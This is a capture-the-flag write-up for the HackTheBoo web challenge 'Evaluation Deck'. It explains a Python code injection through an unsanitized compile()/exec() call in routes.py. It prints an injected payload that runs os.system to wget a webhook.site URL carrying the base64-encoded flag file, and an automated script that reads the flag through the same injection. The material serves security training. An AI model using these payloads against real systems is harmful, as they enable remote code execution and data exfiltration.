 # HackTheBoo - Evaluation Deck

* **Category:** Web
* **Points:** 200
* **Author:** xcl0w3n

## Challenge

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Solution
![image](https://user-images.githubusercontent.com/78451563/198266235-88e75f7a-7e7a-4c0d-abb8-cb2cfb09bec0.png)

* In `routes.py` our data is turned into a code object using `compile()` which takes source code as input and returns a code object which is ready to be executed by the exec() function.
* Since there is no sanitization, we can inject arbitrary commands.

![image](https://user-images.githubusercontent.com/78451563/198271510-2a13624c-7d98-4a73-86c6-fd417aa78127.png)

* We can't use any other character other then integers in `current_health` and `attack_power` so instead we can inject in `operator`.
```python
;__import__('os').system('wget https://webhook.site/951a8069-3beb-48d5-1337-913373c95c7/$(cat /flag.txt|base64)');
```

### Here's an automated script:

```python
import requests

endpoint = "http://142.93.44.104:31803/api/get_health"
flag = ""

i = 0
while '}' not in flag:
	req = requests.post(endpoint,json={"current_health":"0","attack_power":"0","operator":f"+ ord(open('/flag.txt').read()[{i}]) +"})
	i += 1
	flag += chr(req.json()['message'])
	print(f"RECIEVED: {flag}")
print(f"\nFLAG: {flag}")
```

```
Flag: HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```

